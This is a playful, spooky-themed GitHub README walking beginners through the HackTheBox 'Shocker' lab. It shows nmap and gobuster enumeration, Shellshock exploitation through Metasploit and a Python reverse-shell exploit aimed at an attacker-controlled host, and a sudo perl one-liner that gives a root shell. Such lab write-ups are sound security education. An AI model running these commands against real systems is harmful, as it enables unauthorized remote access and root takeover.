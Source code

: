 # Shocker_HTB
This is my spooky themed walkthrough for the Shocker Machine!

🎃 HTB Shocker Writeup 🎃
A Spooky Walkthrough for HackTheBox's "Shocker" Machine
👻 Introduction
Welcome, brave hacker! Today, we're tackling Shocker—a "spookily" easy machine from HackTheBox that teaches us about the terrifying Shellshock vulnerability (CVE-2014-6271).

This guide is designed for beginners, so grab your pumpkin spice latte ☕ and let’s get hacking!

🕵️ Step 1: Enumeration (Finding Doors to Knock On)
First, we scan the machine to see what’s running:

```bash
nmap -sV -sC -T4 10.xx.xx.xx
```

![1 nmap](https://github.com/user-attachments/assets/ae0d7e3a-eafd-48c3-89db-50c8ca38b47b)


👻 Spooky Findings:

Port 80 (HTTP) – Apache 2.4.18 (👀 old and vulnerable!)

Port 2222 (SSH) – OpenSSH 7.2p2 (Not our target today.)

🎃 Clue: The machine is named "Shocker"—hinting at Shellshock!

🔍 Step 2: Web Directory Fuzzing (Looking for Hidden Treats)
We use Gobuster to find hidden files/directories:

```bash
gobuster dir -u http://10.xx.xx.xx -w /usr/share/wordlists/dirb/common.txt -x sh,cgi,pl
```

![2 gobuster](https://github.com/user-attachments/assets/ac22882f-9732-49fc-8e56-39d047fe5da2)


👻 Spooky Findings:

/cgi-bin/ (403 Forbidden)

/cgi-bin/user.sh (200 OK – Jackpot! 🎃)

![3 fuzz user sh](https://github.com/user-attachments/assets/a94da36c-71f8-4948-be0c-d014cd412684)


💥 Step 3: Exploiting Shellshock (The Real Horror Show)
Shellshock lets us inject malicious code into web requests. We exploit it two ways:

🎃 Method 1: Metasploit (Easy Mode)

```bash
msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.xx.xx.xx
set TARGETURI /cgi-bin/user.sh
set LHOST <YOUR_IP>
exploit
```
BOOM! You get a reverse shell as shelly.

🎃 Method 2: Manual Exploit (For the Brave)
Download the Shellshock Python exploit:

```bash
./shellshock.py payload=reverse rhost=10.10.10.56 lhost=<YOUR_IP> lport=4444 pages=/cgi-bin/user.sh
```

👻 Spooky Result: You get a shell!

👑 Step 4: Privilege Escalation (Becoming the Pumpkin King)
Now, let’s become root!

Check sudo permissions:

```bash
sudo -l
```

Output:


(root) NOPASSWD: /usr/bin/perl
"Oh, Perl can run as root? Spooky!"

Exploit Perl to get a root shell:

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```


🎃 Congratulations! You’re now root!

Grab the flags:

![4 user flag](https://github.com/user-attachments/assets/7d35108d-53cf-4eca-a9cb-1cf8cafbda0a)


![5 root flag](https://github.com/user-attachments/assets/9fe8a698-961d-4215-b0be-ee1faf594421)


```bash
cat /home/shelly/user.txt   # User flag
cat /root/root.txt          # Root flag
```

👻 Lessons Learned
Shellshock is a scary vulnerability in old Bash versions.

Always check sudo permissions—sometimes they’re misconfigured!

Enumeration is key—don’t skip scanning and fuzzing!

🎃 Final Words
Hope you enjoyed this spooky walkthrough! Now go forth and haunt more machines! 👻💀

Happy Hacking! 🎃

📜 Credits & Resources
Shellshock Exploit: Exploit-DB 34900

HTB Shocker Machine: HackTheBox

Pumpkins: 🎃🎃🎃 (Because why not?)

👻 Want more spooky writeups?
⭐ Star this repo and follow for more hauntingly good guides!

🎃 "The only thing we have to fear is… a misconfigured sudo permission."
— Probably Abraham Lincoln, if he was a hacker.

This spooky README.md is designed to be fun and easy to follow while keeping the technical details accurate. 

